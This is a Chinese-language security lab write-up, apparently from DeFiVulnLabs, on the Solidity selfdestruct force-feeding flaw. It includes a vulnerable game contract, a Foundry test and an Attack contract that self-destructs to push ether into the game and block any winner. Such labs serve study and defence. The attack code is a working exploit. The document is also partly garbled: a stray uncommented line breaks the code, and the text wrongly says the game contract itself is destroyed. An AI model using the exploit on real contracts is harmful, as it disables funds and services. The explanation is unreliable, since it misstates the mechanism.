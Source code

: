 # Selfdestruct

[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)  

**名称：** 自毁漏洞  

**描述：**    
EtherGame合约的代码中的有一个自毁漏洞，这个漏洞允许攻击者通过EtherGame合约自毁（使用selfstruct操作码）来破坏游戏。  
该漏洞的产生是由于Attack合约中的`dos`函数在收到大量以太币后，执行自毁操作并将合约剩余的以太币全部发送给EtherGame合约。由于执行了自毁操作，EtherGame合约的功能被永久禁用，这使得任何人都无法存入以太币或者领取获胜者的奖励。


**场景：**  
1. 部署EtherGame合约  
2. 玩家（假设是Alice和Bob）决定参与游戏，并各自向EtherGame约合存入1个以太币。
3. 部署Attack合约并在构造函数中传入EtherGame合约地址
4. 调用Attack.attack发送5个以太币到EtherGame合约。这将破坏游戏，任何人都不可能成为赢家。



**发生了什么？**  
攻击者迫使EtherGame合约的余额等于7个以太币。  
现在任何人都不能向EtherGame合约存入以太币，也无法确定赢家。  
因为访问控制缺失或者不足，攻击者可以自毁合约。  
selefdestruct(address)函数会从合约地址删除所有的字节码并且发送所有的以太币到指定的合约地址。  



**解决办法：**  
不要依赖this.balance来获取存入的以太币余额，而是用一个状态变量来表示存入的总金额。  

**EtherGame 合约：**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  
`forge test --contracts src/test/Selfdestruct.sol -vvvv`  

```
// 测试使用自毁函数的场景
function testSelfdestruct() public {
    // 记录Alice的余额
    console.log("Alice balance", alice.balance);
    // 记录Eve的余额
    console.log("Eve balance", eve.balance);

    // 记录Alice开始存款
    console.log("Alice deposit 1 Ether...");
    // 将msg.sender设置为Alice
    vm.prank(alice);
    // Alice向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录Eve开始存款
    console.log("Eve deposit 1 Ether...");
    // 将msg.sender设置为Eve
    vm.prank(eve);
    // Eve向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录EtherGame合约的余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // 记录攻击的开始
    console.log("Attack...");
    //使用EtherGame合约作为参数创建Attack合约的新实例。
    AttackerContract = new Attack(EtherGameContract);
    // 向Attacker合约的dos函数发送5个以太币。
    AttackerContract.dos{value: 5 ether}();
    // 记录攻击后EtherGame合约的新余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // 记录攻击的完成
    console.log("Exploit completed, Game is over");
    // 尝试向EtherGame合约存入1个以太币。由于合约已被销毁，此调用将失败。
    EtherGameContract.deposit{value: 1 ether}(); // 由于合约已被销毁，此调用将失败。
}

// 用于攻击EtherGame合约的合约。
contract Attack {
    // 要攻击的EtherGame合约。
    EtherGame etherGame;

    // 构造函数中设置EtherGame合约。
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // 执行攻击的函数
    function dos() public payable {
        // 通过发送以太币来破坏游戏，使游戏余额大于等于7个以太币 
        balance is >= 7 ether.

        // 将EtherGame合约地址转换为可支付的地址
        address payable addr = payable(address(etherGame));
        // 自毁合约，并将其余额发送到EtherGame合约
        selfdestruct(addr);
    }
}
```
**红框：** 攻击成功，游戏结束。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1b7b4334-de84-448a-a344-646eb909fb4f%2FUntitled.png?table=block&id=ed7eeade-45f5-4ed8-a8e7-b6e940b0af07&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)